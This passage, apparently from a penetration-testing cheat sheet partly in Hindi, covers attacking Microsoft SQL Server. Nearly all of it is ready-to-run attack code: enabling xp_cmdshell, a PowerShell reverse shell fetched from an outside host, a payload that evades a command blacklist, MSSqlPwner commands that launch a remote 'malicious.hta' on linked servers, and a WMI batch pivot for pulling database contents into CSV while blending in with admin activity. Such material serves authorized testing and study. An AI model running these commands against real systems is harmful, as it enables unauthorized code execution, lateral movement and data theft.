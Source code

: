 ```bash
#One liner
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
# Get Rev shell
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Executing custom assembly on the current server with windows authentication and executing hostname command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec "cmd /c mshta http://192.168.45.250/malicious.hta" -command-execution-method sp_oacreate
```
### WMI-based रिमोट SQL कलेक्शन (sqlcmd + CSV export)

ऑपरेटर IIS/app tier से SQL Servers तक WMI का उपयोग करके एक छोटा बैच चला कर pivot कर सकते हैं जो MSSQL में authenticate होकर ad‑hoc queries चलाता है और परिणामों को CSV में export करता है। यह कलेक्शन को सरल रखता है और admin activity के साथ घुलमिल जाता है।

उदाहरण mssq.bat
```bat
@echo off
rem Usage: mssq.bat <server> <user> <pass> <"SQL"> <out.csv>
set S=%1
set U=%2
set P=%3
set Q=%4
set O=%5
rem Remove headers, trim trailing spaces, CSV separator = comma
sqlcmd -S %S% -U %U% -P %P% -Q "SET NOCOUNT ON; %Q%" -W -h -1 -s "," -o "%O%"
```
WMI के माध्यम से इसे दूरस्थ रूप से Invoke करें
```cmd
wmic /node:SQLHOST /user:DOMAIN\user /password:Passw0rd! process call create "cmd.exe /c C:\\Windows\\Temp\\mssq.bat 10.0.0.5 sa P@ssw0rd \"SELECT TOP(100) name FROM sys.tables\" C:\\Windows\\Temp\\out.csv"
```
PowerShell विकल्प
```powershell
$cmd = 'cmd.exe /c C:\\Windows\\Temp\\mssq.bat 10.0.0.5 sa P@ssw0rd "SELECT name FROM sys.databases" C:\\Windows\\Temp\\dbs.csv'
Invoke-WmiMethod -ComputerName SQLHOST -Class Win32_Process -Name Create -ArgumentList $cmd
```
नोट्स
- sqlcmd मौजूद न हो सकता है; osql, PowerShell Invoke-Sqlcmd पर लौटें, या System.Data.SqlClient का उपयोग करने वाला एक one‑liner चलाएँ।